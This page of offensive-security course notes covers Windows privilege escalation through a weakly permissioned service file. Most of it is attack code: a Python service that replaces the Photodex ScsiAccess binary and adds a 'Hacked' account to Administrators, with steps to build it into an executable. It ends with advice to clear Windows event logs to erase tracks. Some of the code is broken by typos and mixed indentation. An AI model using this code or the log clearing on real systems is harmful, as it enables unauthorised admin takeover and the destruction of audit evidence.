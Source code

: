 ```yaml
---
title: Privilege escalation - Weak service file permission 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - windows privilege escalation
  - privilege escalation
---
```


# Privilege escalation - Weak service file permission 

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Setting up the lab

**1.** Download vulnerable application from https://www.exploit-db.com/exploits/24872 and install it for all users on a windows VM.

**2.** Create a non admin account in the Windows VM. For instance:
- user: nonadmin
- password: 123123

**3.** Restart the windows VM and login as nonadmin user.

**4.** Open the PhotoDex application and in Task Manager locate the service that gets created by the application. It's called ScsiAccess.ç

**5.** Open properties of ScsiAccess service and locate the path to executable. It should be something like:

```
C:\Program Files\Photodex\ProShow PRoducer\ScsiAccess.exe
```

**6.** We can replace that file with a malicious service file that will be triggered when opening the Photodex application and get us escalated to admin privileges.

**7.** Script for windows 7 app. Go to step 8 for windows 10. Jump to step 9 after this step.

```python
# Windows 7
import servicemanager
import win32serviceutil
import win32service
import win32api

import os
import ctypes

class Service(win32serviceutil.ServiceFramework):
    _svc_name_ = 'ScsiAccess'
    _svc_display_name_ = 'ScsiAccess'

    def __init__(self, *args):
        win32serviceutil.ServiceFramework.__init__(self, *args)

    def sleep(self, sec):
        win32api.Sleep(sec*1000, True)

    def SvcDoRun(self):

        self.ReportServiceStatus(win32service.SERVICE_START_PENDING)
        try:
            self.ReportServiceStatus(win32service.SERVICE_RUNNING)
            self.start()

        except:
            self.SvcStop()
    def SvcStop(self):
        self.ReportServiceStatus(win32service.SERVICE_STOP_PENDING)
        self.stop()
        self.ReportServiceStatus(win32service.SERVICE_STOPPEED)

    def start(self):
        self.runflag=True
        
        f = open('C:/Users/nonadmin/Desktop/priv.txt', 'w')
        if ctypes.windll.shell32.IsUserAnAdmin() == 0:
            f.write('[-] We are NOT admin')
        else:
            f.write('[+] We are admin')
        f.close()
        
    def stop(self):
        self.runflag=False

if __name__ == '__main__':


    servicemanager.Initialize()
    servicemanager.PrepareToHostSingle(Service)
    servicemanager.StartServiceCtrlDispatcher()
    win32serviceutil.HandleCommandLine(Service)


```

We can use py2exe to craft an exe file for that python script:

This setup file will convert the python script scsiaccess.py into an exe file:

```python
from distutils.core import setup
import py2exe, sys, os

sys.arg.append("py2exe")
setup(
	  options = {'py2exe': {'bundle_files': 1}},
	  windows = [ {'script': "scsiaccess.py"}],
	  zipfule = None
)
```

You can also use [pyinstaller](../pyinstaller.md):

```bash
Pyinstaller --onfile Create_New_Admin_account.py
```

**8.** Script for Windows 10:

```python
# The order of importing libraries matter. "servicemanager" should be imported after win32X. As following:-

import win32serviceutil
import win32service
import win32api
import win32timezone
import win32net
import win32netcon
import servicemanager

## the rest of the code is still the same
import os
import ctypes

class Service(win32serviceutil.ServiceFramework):
    _svc_name_ = 'ScsiAccess'
    _svc_display_name_ = 'ScsiAccess'

    def __init__(self, *args):
        win32serviceutil.ServiceFramework.__init__(self, *args)

    def sleep(self, sec):
        win32api.Sleep(sec*1000, True)

    def SvcDoRun(self):

        self.ReportServiceStatus(win32service.SERVICE_START_PENDING)
        try:
            self.ReportServiceStatus(win32service.SERVICE_RUNNING)
            self.start()

        except:
            self.SvcStop()
    def SvcStop(self):
        self.ReportServiceStatus(win32service.SERVICE_STOP_PENDING)
        self.stop()
        self.ReportServiceStatus(win32service.SERVICE_STOPPEED)

    def start(self):
        self.runflag=True
        
		USER = "Hacked"
		GROUP = "Administrators"
		user_info = dict (
			name = USER,
			password = "python",
			priv = win32netcon.USER_PRIV_USER,
			home_dir = None,
			comment = None,
			flags = win32netcon.UF_SCRIPT,
			script_path = None
			 )
		user_group_info = dict (
			domainandname = USER
			)
		try:
			win32net.NetUserAdd (None, 1, user_info)
			win32net.NetLocalGroupAddMembers (None, GROUP, 3, [user_group_info])
		except Exception, x:
			pass
		'''	
        f = open('C:/Users/nonadmin/Desktop/priv.txt', 'w')
        if ctypes.windll.shell32.IsUserAnAdmin() == 0:
            f.write('[-] We are NOT admin')
        else:
            f.write('[+] We are admin')
        f.close()
        '''
    def stop(self):
        self.runflag=False

if __name__ == '__main__':


    servicemanager.Initialize()
    servicemanager.PrepareToHostSingle(Service)
    servicemanager.StartServiceCtrlDispatcher()
    win32serviceutil.HandleCommandLine(Service)

```


To export into EXE use:

```
Pyinstaller --onfile Create_New_Admin_account.py`
```

**9.** Replace the service file, under

```
C:\Program Files (x86)\Photodex\ProShow Producer`
```


**10.** Rename the original scsiaccess to scsiaccess123.

**11.** Put your Python exe as scsiaccess  (without .exe).

**12.** Restart and test- You should see "Hacked" account been created.


### Python script to check if we are admin users on Windows

```python
import ctypes
	if ctypes.windll.shell32.IsUserAnAdmin() == 0:
		print '[-] We are NOT admin! '
	else:
		print '[+] We are admin :) '
```


## Erasing tracks

Once you are admin, open Event Viewer and go to Windows Logs. Click right button on Applications and Security and the option "Clear Logs".